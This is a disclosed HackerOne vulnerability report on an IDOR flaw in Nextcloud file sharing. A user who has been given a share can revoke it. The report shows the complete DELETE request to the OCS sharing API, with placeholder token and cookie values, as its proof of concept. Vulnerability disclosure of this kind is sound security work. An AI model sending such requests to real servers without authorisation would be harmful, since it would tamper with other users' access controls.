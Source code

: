 # IDOR - Disable sharing

## Report Details
- **Report ID**: 153905
- **URL**: https://hackerone.com/reports/153905
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-07-26T06:21:54.786Z
- **Disclosed**: 2016-12-03T21:58:44.569Z

## Reporter
- **Username**: dalt4sec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Decription:
-----
Users are shared files or folder. can disable this sharing.

Detail:
------
 + use request:

DELETE /nextcloud/ocs/v2.php/apps/files_sharing/api/v1/shares/[share-id]?format=json HTTP/1.1
Host: [your-host]
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
requesttoken: [token of user is shared]
OCS-APIREQUEST: true
X-Requested-With: XMLHttpRequest
Cookie: [cookie of user is shared]
Connection: keep-alive

Note:
----
only user is shared or user in group is shared can do it

## Attachments
- admin-shared-to-user1.PNG
- Result.PNG
- user1-disable-sharing.PNG

